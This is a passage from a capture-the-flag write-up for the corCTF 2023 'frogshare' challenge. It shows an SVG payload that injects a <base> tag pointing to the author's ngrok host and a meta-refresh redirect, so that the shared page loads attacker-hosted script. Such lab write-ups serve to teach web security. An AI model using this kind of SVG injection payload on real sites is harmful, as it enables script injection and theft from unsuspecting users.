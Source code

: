 Uhh... There's no `/flag` GET request... What??

After fumbling around, the shared frog page must need to ***refresh*** in order to trigger the JavaScript execution...

**To solve that problem, we can use the `<meta>` tag.**

**Let's modify our SVG payload again:**
```svg
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>

  <foreignObject>
    <base href="https://2eb1-[...].ngrok-free.app">
    <meta http-equiv="refresh" content="2;url=https://frogshare.be.ax/frogs/59">
  </foreignObject>
</svg>
```

The `<meta>` tag will redirect the user to `https://frogshare.be.ax/frogs/<your_frog_id>` after 2 seconds.

![](https://github.com/siunam321/CTF-Writeups/blob/main/corCTF-2023/images/Pasted%20image%2020230731164001.png)
